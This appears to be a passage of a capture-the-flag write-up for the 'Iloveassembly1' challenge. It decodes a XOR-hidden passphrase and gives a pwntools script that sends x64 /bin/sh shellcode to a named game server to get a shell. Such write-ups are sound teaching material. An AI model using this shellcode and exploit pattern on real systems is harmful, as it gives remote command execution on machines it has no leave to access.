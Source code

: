 A **simple xor** is made and the xored string is compared to a **hardcoded** string. Easy to decrypt, here's the little bit of code I used to get the passphrase:

```py
seq = b'\x2c\x20\x33\x32\x29\x20\x22\x2a\x2c\x20\x33\x32\x20\x2f'

for el in seq:
	print(chr(el ^ 0x41), end="")
```

Passphrase = `marshackmarsan`

But that's not the end ! It was simply a little check before accessing the real challenge. Here's the decompiled flag function: (simplified)

```c
void flag() {
	char input[0x95];
	memset(input, 0, 0x95);
	read(0, input, 0x95);
	*input();	
}
```

That executes **any shellcode** we are writing after our passphrase !

## Exploiting

Knowing that, we simply had to ask internet for a basic x64 shellcode and adding it after our passphrase. And yeah, it worked first try 😎

```py
from pwn import *


HOST = ["game1.marshack.fr", 43002]

payload = b''.join([
	b"marshackmarsan",
	b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
	b"whoami\n"
])

p = connect(HOST[0], HOST[1])
print(p.readuntil(b">").decode("utf-8"))
p.sendline(payload)
print(p.recvrepeat(.1))
p.interactive()
```

After searching a bit, the flag is located at `/home/iloveassembly1/flag.txt`

flag: idontremember


# Iloveassembly2
